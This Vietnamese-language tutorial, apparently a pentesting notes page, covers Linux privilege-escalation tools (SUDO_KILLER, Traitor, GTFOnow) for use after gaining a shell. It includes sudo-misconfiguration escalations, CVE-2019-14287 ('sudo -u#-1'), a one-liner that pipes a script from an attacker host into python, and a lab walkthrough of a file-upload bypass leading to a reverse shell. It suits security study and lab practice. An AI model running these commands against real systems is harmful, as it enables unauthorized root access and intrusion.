 Các tool ở đây thường là để upload lên mục tiêu sau khi đã lấy được shell (Có thể thực hiện upload qua Meterpreter, Weevely, ...)
# SUDO_KILLER
![image](https://github.com/Myozz/everyTools/assets/94811005/92c08546-91c8-4ab3-a673-98597e0d72ac)
## Giới thiệu
- Link: [https://github.com/TH3xACE/SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER)
- Đây là một công cụ được thiết kế để khai thác Privilege Escalation trên các hệ thống Unix-like.
- SUDO_KILLER có thể khai thác các lỗ hổng dưới đây: ![image](https://github.com/Myozz/everyTools/assets/94811005/71fb4f81-8f24-4747-a3a2-d2811dd3bd0f)
- Công cụ này vẫn được cập nhật các CVE mới như ```CVE-2023-22809```

## Thử nghiệm
- Ta sẽ sử dụng SUDO_KILLER trên mục tiêu, có thể thông qua reverse shell hay bất kì các nào khác có thể thực thi trên mục tiêu
- Nếu chạy mặc định mà không thêm bất kì tuỳ chọn nào, công cụ sẽ sử dụng hầu hết các chức năng để kiểm tra mục tiêu
### CVE Exploit
- Phần này được hiện ở phần **Checking for disclosed vulnerables (CVE)** ![image](https://github.com/Myozz/everyTools/assets/94811005/6c537e2c-2c54-4a77-a765-27d652bc9cf2)
- Ở đây công cụ sẽ liệt kê các CVE mà có khả năng cao hệ thống mục tiêu sẽ gặp phải, cũng như đưa ra một đường dẫn Exploit. Ta chỉ cần làm theo  ![image](https://github.com/Myozz/everyTools/assets/94811005/53e8b79c-3470-4cc4-b714-4adab97304d0)
- Như hình trên, ta đã khai thác thành công mục tiêu mà đổi được mật khẩu của root
### Dangerous Bins
- Hiển thị ở phần **Checking for Dangerous binaries within sudo** ![image](https://github.com/Myozz/everyTools/assets/94811005/59e12898-2135-460e-8d29-9e105c9c1f61)
- Phần này cho phép chỉnh sửa các file quan hệ thống như /etc/passwd
### Common Misconfiguration
![image](https://github.com/Myozz/everyTools/assets/94811005/030ec55e-c713-4658-a4c7-32c18a14b87e)
- Theo như hướng dẫn ta sẽ đọc file notes/chown-hR.txt tại folder của SUDO_KILLER ![image](https://github.com/Myozz/everyTools/assets/948Sửa11005/c6396386-f664-4778-8b0c-e6efa68b16e4)
- Thực hiện các bước được ghi trong file
  - Sử dụng sudo -l để kiểm tra cách lệnh mà ta có thể dùng với sudo
  - Ta để ý dòng thứ 2, ta có thể thực hiện một bash file trong thư mục user
  - Trước mắt ta chown -hR user:root /home/user/directory dưới quyền sudo ![image](https://github.com/Myozz/everyTools/assets/94811005/adc72f2c-bd53-4bb5-83bd-11a93ae86c0d)
  - Chuyển tới dir có đường dẫn tương ứng ![image](https://github.com/Myozz/everyTools/assets/94811005/99a9a14d-64b2-4a1f-96b7-41b5bbbeb182)
  - Bước tiếp theo là tạo một file setup.sh bên trong directory này với nội dung là ![image](https://github.com/Myozz/everyTools/assets/94811005/e7cf4563-0a5c-4169-928a-047cca115ac6)
  - Gán quyền thực thi cho file và chạy nó dưới quyền của sudo
  - Khi này để thực thi file vừa tạo ta cần phải quay lại thư mục gốc và chạy lệnh bằng sudo thôi ![image](https://github.com/Myozz/everyTools/assets/94811005/cb1ac512-c235-4e16-9bbf-be40ba5adc72)
### Excessive Right 
![image](https://github.com/Myozz/everyTools/assets/94811005/8f83d3bd-ede4-491e-ad59-b1f41b7bd611)
- Kiếm tra quyền của file và thư mục ![image](https://github.com/Myozz/everyTools/assets/94811005/efca74c2-151f-4801-8b64-772cbd6389f5)
- Ta thấy được có 2 file start và restart và ta (user) đang sở hữu file start.sh
- Kiểm tra bằng ```sudo -l```, ta còn thấy được ta có thể thực thi cũng như chính sửa 3 file start/restart/stop.sh bằng quyền root
- Đổi tên file ```start.sh``` thành một tên khác và thực hiện link ```start.sh``` với ```/bin/bash``` bằng lệnh ln -s
- Thực thi file ```start.sh``` với quyền sudo, vậy là ta đã thực hiện leo quyền thành công ![image](https://github.com/Myozz/everyTools/assets/94811005/262a2748-1a9e-4170-925d-86232dc957c6)
### Missing Script
![image](https://github.com/Myozz/everyTools/assets/94811005/cb3cbb6d-9030-4d98-9d4d-195eea6ede11)
- Kiểm tra quyền với ```sudo -l``` ![image](https://github.com/Myozz/everyTools/assets/94811005/964a9ba0-e043-442a-bc56-d27aa42672db)
- Ta thấy user có thể sử dụng file stop.sh với quyền sudo
- SUDO_KILLER thông báo thiếu file stop.sh tại đường dẫn của nó, vậy có nghĩa là đang có lỗi Missing Script tại đây
- Ta tạo file stop.sh với nội dung bash bất kỳ, rồi chạy nó bằng sudo ![image](https://github.com/Myozz/everyTools/assets/94811005/a1e31bdb-7249-434f-a38d-fccccb03e1d6)
### Dangerous environment variables
![image](https://github.com/Myozz/everyTools/assets/94811005/1084bb09-0beb-45ea-9497-37df4d2cfa2c)
- Ta sẽ làm theo hướng dẫn:
  - Copy file script trong dir exploits của tool sang dir /tmp/ của hệ thống
  - Thực thi lệnh ```sudo exploits/Env_exploit2.so <lệnh có thể chạy bằng sudo>``` (Kiểm tra bằng ```sudo -l```
  - ![image](https://github.com/Myozz/everyTools/assets/94811005/170dd49f-a63f-4fff-8b49-010487decb2f)
  - Ta thấy user có quyền thực thi lệnh cp bằng sudo. Vậy nên câu lệnh sẽ như sau: ```sudo exploits/Env_exploit2.so cp``` ![image](https://github.com/Myozz/everyTools/assets/94811005/cc6878e3-cf8a-40a6-94f3-b38618162db0)
### File permission hijacking (Chiếm quyền file)
![image](https://github.com/Myozz/everyTools/assets/94811005/be3fccdc-62cc-4651-b4c8-00d62fffac3f)
- Thực thi lệnh ```sudo /usr/local/bin/suđoeit /etc/printcap```
- Bên trong text editor, thực thi lệnh ```:set shell=/bin/sh``` rồi đến ```:shell```, ta sẽ mở được một root shell
### CVE-2019-14287
![image](https://github.com/Myozz/everyTools/assets/94811005/d43f18d7-0a5f-4135-8fb8-a7cc47454669)
- Làm theo hướng dẫn, ta thực thi lệnh sudo -u#-1 <path>, theo như tool thì có 2 path ta có thể dùng là **/bin/bash** và **/usr/bin/id**. Chỉ đơn giản như vậy và ta có thể vào root dễ dàng
# Traitor
## Giới thiệu
[https://github.com/liamg/traitor](https://github.com/liamg/traitor)
- Một tool tự động tìm các misconfiguration và khai thác chúng để leo quyền root
- Các lỗ hổng mà tool này có thể khai thác ![image](https://github.com/Myozz/everyTools/assets/94811005/e68717fd-b309-482d-8f4f-fe9269831e5a)
- Đây là một tool không được cập nhật kể từ 2022 nên có thể thiếu các vuln hay misconfig mới
## Các tuỳ chọn chính
- Nếu chỉ chạy tool mà không có bất kì flag nào thì tool sẽ tìm các vuln/misconfig mà có thể sử dụng để leo quyền
- ```-p```: Cung cấp password của người dùng hiện tại của mục tiêu (dùng để xác thực trong trường hợp cần thiết)
- ```-a```: Thử khai thác từng lỗ hổng có thể, dừng lại khi lấy được root shell
- ```-e```: Chỉ định misconfig/vuln để khai thác trên mục tiêu
# GTFOnow
- Link: [https://github.com/Frissi0n/GTFONow](https://github.com/Frissi0n/GTFONow)
- Một tool có khả năng khai thác hầu hết các misconfig trên GTFObin, và vẫn được cập nhật cho tới thời điểm hiện tại
- Có thể exploit bằng curl thay vì phải upload lên mục tiêu

      curl http://attacker.host/gtfonow.py | python
## Các tuỳ chọn chính
- ```--level <LEVEL>```: Tuỳ chỉnh giữa 2 level:
  - ```1```: Tuỳ chọn mặc định, quét nhanh mục tiêu
  - ```2```: Tuỳ chọn cho phép quét rộng hơn
- ```--risk <RISK>```: Mức độ rủi ro
  - ```1```: Tuỳ chọn mặc định, đảm bảo an toàn cho mục tiêu
  - ```2```: Tool sẽ tự động chỉnh sửa một số file cần thiết, chỉ nên sử dụng khi đã nắm rõ chúng làm những gì
- ```--command <COMMAND>```: Thực hiện một câu lệnh sau khi đã leo quyền thành công
- ```--auto```: Tự động khai thác thay vì yêu cầu chúng ta chọn
- ```-v```: Theo dõi tiến độ khi khai thác 
## Thử nghiệm
- Ta sẽ thực hiện qua một lab upload vuln ![image](https://github.com/Myozz/everyTools/assets/94811005/8c3a5213-aeac-4cee-ac09-68307936bfd1
- Sử dụng các công cụ tìm path/dir trên mục tiêu ta biết được mục tiêu lưu file tại path ```/uploads```
- Tiếp tục kiểm tra xem mục tiêu cho phép upload định dạng file nào, có thể tham khảo qua [https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln)
- Sau khi thực hiện kiểm tra, ta thấy được có thể sử dụng các định dạng file php1, php2,... (trừ php) có thể được sử dụng để khai thác
- Thực hiện tạo payload với định dạng file như trên, tham khảo các tool tạo payload ở [đây](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln/Payloads)
- Upload payload vừa tạo được lên mục tiêu (Có thể tận dụng tool filepwner ở [https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln) để upload file qua config của nó, rồi thực hiện reverse shell (nên sử dụng meterpreter để có thể upload các công cụ kể trên lên mục tiêu
- Sau khi có được Meterpreter, bây giờ ta sẽ thử upload file GTFOnow lên mục tiêu bằng lệnh ```upload``` và dùng lệnh ```shell``` để thực thi lệnh trên mục tiêu ![image](https://github.com/Myozz/everyTools/assets/94811005/54420ce7-9162-4395-854c-81e747478410)
- Thực thi lệnh ```python gtfonow.py -a``` để bắt đầu khai thác tự động ![image](https://github.com/Myozz/everyTools/assets/94811005/c41eb7a8-29fa-425c-a729-b11adff819fb) 
- Như vậy là ta đã thành công leo quyền root lên mục tiêu

